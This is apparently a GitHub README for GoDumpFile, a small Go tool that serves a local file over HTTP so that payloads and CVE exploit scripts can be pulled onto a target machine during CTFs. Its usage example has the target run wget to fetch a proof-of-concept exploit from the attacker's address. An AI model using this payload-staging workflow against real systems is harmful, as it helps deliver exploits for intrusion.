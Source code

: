 # GoDumpFile

GoDumpFile is an executable that opens a HTTP GET endpoint linked to a file or folder on your machine, so you can just download the wanted file from another computer on your local network (or distant if the port is opened on the internet).

It's mainly used to dump payload and/or scripts using curl and wget, to use a CVE in a remote machine. 
Of course, it's intended to be used during CTFs and not on actual vulnerable devices.

Please add a star if you like it :)


## How to install it

You can either download the code in the /cmd/ folder of this repository and then build it using `go build ./cmd/main/main.go`, or, if you're somewhat lazy you can also download the executable in the `executables` folder.


## How to use it

You have to call `/path/to/GoDumpFile/ ` followed by the arguments `-file path/to/file-or-folder -name name_for_the_endpoint`

Example :
`/home/JeanJean/Downloads/GoDumpFile -file /home/JeanJean/Downloads/poc.py -name cve.py` will create `<your_ip>/cve.py`, and `wget <your_ip>/cve.py` on the target machine will download /home/JeanJean/Downloads/poc.py on it, renamed as "cve.py"

Additionnal optional flags :
`-port <int>` will open the endpoint on the given name. By default, it uses the port 80.


## Todo
* Adding /package/GoDumpFile.deb to easily install GoDumpFile in Path
* Rearranging my folders because /cmd/internals is an abomination (sorry guys)
* Creating a nice logo :)